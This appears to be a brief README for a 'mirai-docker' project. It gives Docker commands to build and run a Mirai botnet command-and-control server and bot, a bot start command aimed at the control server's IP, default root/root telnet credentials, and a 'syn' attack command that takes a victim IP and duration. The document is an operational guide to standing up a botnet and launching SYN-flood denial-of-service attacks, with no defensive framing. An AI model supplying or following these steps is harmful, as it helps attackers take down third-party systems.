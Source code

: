 # mirai-docker

## CNC
Build: `$ sudo docker build -t cnc .`\n
Run: `$ sudo docker run -i -t cnc`\n

## BOT
Build: `$ sudo docker build -t bot .`\n
Run: `$ sudo docker run -i -t bot`\n
Start Bot: `$ init.sh "IP of CNC" `\n

## Attack Instructions
Connect to CNC: `$ telnet "IP of CNC"`\n
username: root\n
password: root\n
attack: `$ syn "IP of Victim" "duration of attack"`\n
